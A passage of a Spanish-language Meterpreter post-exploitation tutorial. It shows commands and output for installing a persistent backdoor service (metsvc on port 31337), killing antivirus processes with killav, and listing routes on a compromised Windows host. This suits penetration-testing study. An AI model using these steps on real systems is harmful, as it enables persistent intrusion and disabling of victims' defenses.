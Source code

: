 ```
meterpreter > run metsvc

[*] Creating a meterpreter service on port 31337

[*] Creating a temporary installation directory C:\DOCUME~1\Owner\LOCALS~1\Temp\lZBdswMe…

[*] >> Uploading metsrv.dll…

[*] >> Uploading metsvc-server.exe…

[*] >> Uploading metsvc.exe…

[*] Starting the service…

* Installing service metsvc

* Starting service

Service metsvc successfully installed.
```

Como se puede apreciar la backdoor se ha instalado correctamente en el objetivo, ahora es posible realizar una conexión activa (ya no es necesario esperar de forma pasiva a que un usuario ejecute el fichero .exe que habilitará la sesión meterpreter).

killav

##### En muchas ocasiones en la maquina objetivo existen programas de antivirus instalados, lo que dificultará tareas comunes e inclusive triviales, por esta razón existe el script killav que intentará terminar todos los procesos de antivirus en el objetivo:
meterpreter > run killav
```
[*] Killing Antivirus services on the target…

[*] Killing off avgrsx.exe…

meterpreter >
```

Aunque con este comando se supone que se deberían eliminar los procesos de monitoreo como Antivirus, en algunos casos no funciona correctamente, en especial cuando se trata de antivirus que tienen procesos persistentes/resilentes y que no pueden ser detenidos con los mecanismos convencionales, es en estos casos en los que se deben emplear mecanismos mas elaborados para desactivar esta clase de servicios en la maquina comprometida, aquí entra en juego un proceso de recolección de información y análisis de las defensas del objetivo.

route <Stdapi Network commands>
Se trata del conocido comando route en sistemas windows/linux, permite conocer y definir las tablas de enrutamiento del sistema

```
meterpreter > route list

Network routes

==============

Subnet Netmask Gateway

—— ——- ——-

0.0.0.0 0.0.0.0 192.168.1.1

127.0.0.0 255.0.0.0 127.0.0.1
```